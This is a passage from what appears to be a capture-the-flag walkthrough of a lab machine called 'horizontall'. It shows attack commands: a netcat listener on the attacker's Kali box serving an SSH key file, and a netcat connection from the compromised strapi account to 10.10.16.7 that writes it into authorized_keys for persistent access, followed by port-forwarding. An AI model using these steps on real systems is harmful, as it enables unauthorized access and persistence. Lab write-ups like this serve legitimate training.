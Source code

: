 ```
|             .   |
|            . .  |
|             E   |
|                 |
+----[SHA256]-----+
                                                                                        
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 6060 < /home/kali/.ssh/id_rsa                                          2 ⚙
listening on [any] 6060 ...
```

Checking the permissions on ```/opt```, we realize that the user ```strapi``` has write permissions

```
strapi@horizontall:~/myapi$ ls -la /opt         
ls -la /opt
total 12
drwxr-xr-x  3 root   root   4096 May 26 14:24 .
drwxr-xr-x 24 root   root   4096 Aug 23 11:29 ..
drwxr-xr-x 10 strapi strapi 4096 Sep 19 04:29 strapi
```

Now, we will add the SSH public key into our list of authorized keys on our victim machine
```
strapi@horizontall:~/myapi$ cd /opt/strapi
cd /opt/strapi
strapi@horizontall:~$ ls -la
ls -la
total 52
drwxr-xr-x 10 strapi strapi 4096 Sep 19 04:29 .
drwxr-xr-x  3 root   root   4096 May 26 14:24 ..
-rw-r--r--  1 strapi strapi  231 Jun  1 12:50 .bash_logout
-rw-r--r--  1 strapi strapi 3810 Jun  1 12:49 .bashrc
drwx------  2 strapi strapi 4096 May 26 14:29 .cache
drwx------  3 strapi strapi 4096 May 26 14:30 .config
drwx------  3 strapi strapi 4096 Sep 19 04:17 .gnupg
drwxrwxr-x  3 strapi strapi 4096 Jun  1 12:07 .local
drwxr-xr-x  9 strapi strapi 4096 Sep 19 04:15 myapi
drwxrwxr-x  5 strapi strapi 4096 Sep 19 04:40 .npm
drwxrwxr-x  5 strapi strapi 4096 Sep 19 04:00 .pm2
-rw-r--r--  1 strapi strapi  807 Apr  4  2018 .profile
drwxrwxr-x  2 strapi strapi 4096 Sep 19 04:29 .ssh
strapi@horizontall:~$ mkdir ~/.ssh
mkdir ~/.ssh
strapi@horizontall:~$ cd .ssh
cd .ssh
strapi@horizontall:~/.ssh$ nc -nv 10.10.16.7 6060 > authorized_keys
nc -nv 10.10.16.7 6060 > authorized_keys
Connection to 10.10.16.7 6060 port [tcp/*] succeeded!
```

Afterwards, we will do the port-forwarding on our attacker machine. We also notice that we are able to view a Laravel page on ```http://127.0.0.1:8000```
